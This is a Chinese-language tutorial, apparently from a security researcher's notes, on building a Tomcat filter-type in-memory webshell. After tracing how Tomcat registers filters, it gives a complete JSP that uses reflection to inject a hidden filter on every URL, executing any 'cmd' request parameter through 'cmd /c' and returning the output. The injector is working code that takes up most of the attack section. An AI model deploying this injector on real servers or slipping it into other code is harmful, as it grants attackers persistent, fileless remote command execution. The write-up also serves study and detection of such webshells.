










# Tomcat-Filter型内存马


当tomcat接收到请求时候，依次会经过Listener -> Filter -> Servlet，监听器的我们已经实现了相对简单一点，过滤器的则相对复杂一点

## 简单实现一个过滤器

首先需要简单写个filter

```java
public class TestFilter implements Filter {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
        System.out.println("filter初始化");
    }

    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        System.out.println("doFilter过滤");
        //放行
        chain.doFilter(request,response);
    }

    @Override
    public void destroy() {
        System.out.println("destroy filter");

    }
}
```

配置xml

```xml
<filter>
    <filter-name>TestFilter</filter-name>
    <filter-class>com.yyds.TestFilter</filter-class>
</filter>
<filter-mapping>
    <filter-name>TestFilter</filter-name>
    <url-pattern>/*</url-pattern>
</filter-mapping>
```


## 流程分析

从调用链当中我们可以看到一个filterChain


可以看到是通过ApplicationFilterFactory.createFilterChain获得


这里获得了filterMaps

看看哪里可以添加

找到了个addFilterMap还有个addFilterMapBefore，经过具体跟踪确定是addFilterMap，这里添加了一个filterMap



看看这个filterMap里面存了什么FilterName、URLPattern、Dispatcher，并且这个Dispatcher根据类型我们只需要设置一个DispatcherType.REQUEST.name()



从调用上可以看到在web.xml当中解析并添加`FilterDef`和`FilterMap`

接下来再往下去尝试获取了filterConfig

跟入找到了


再来看filterConfigs在哪里设置的，发现在filterStart中有调用


可以看到这里建立了一个映射，这个filterConfig是通过entry.getValue()获得，跟踪下发现是filterDefs



是一个HashMap



通过addFilterDef设置值



看到这里设置了一个name与一个class



设置好后添加进filterDefs即可



接下来再回到ApplicationFilterConfig，看到将StandardContext与filterdef添加进去



## 实现内存马

根据上面流程我们只需要设置filterMaps、filterConfigs、filterDefs就可以注入恶意的filter

- filterMaps：一个HashMap对象，包含过滤器名字和URL映射
- filterDefs：一个HashMap对象，过滤器名字和过滤器实例的映射
- filterConfigs变量：一个ApplicationFilterConfig对象，里面存放了filterDefs

```jsp
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
    final String name = "y4tacker";
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    if (filterConfigs.get(name) == null){
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null){
                    byte[] bytes = new byte[1024];
                    Process process = new ProcessBuilder("cmd","/c",req.getParameter("cmd")).start();
                    int len = process.getInputStream().read(bytes);
                    servletResponse.getWriter().write(new String(bytes,0,len));
                    process.destroy();
                    return;
                }
                filterChain.doFilter(servletRequest,servletResponse);
            }

            @Override
            public void destroy() {

            }

        };


        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());
        /**
         * 将filterDef添加到filterDefs中
         */
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(name);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        standardContext.addFilterMapBefore(filterMap);

        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

        filterConfigs.put(name,filterConfig);
        out.print("Inject Success !");
    }
%>
```


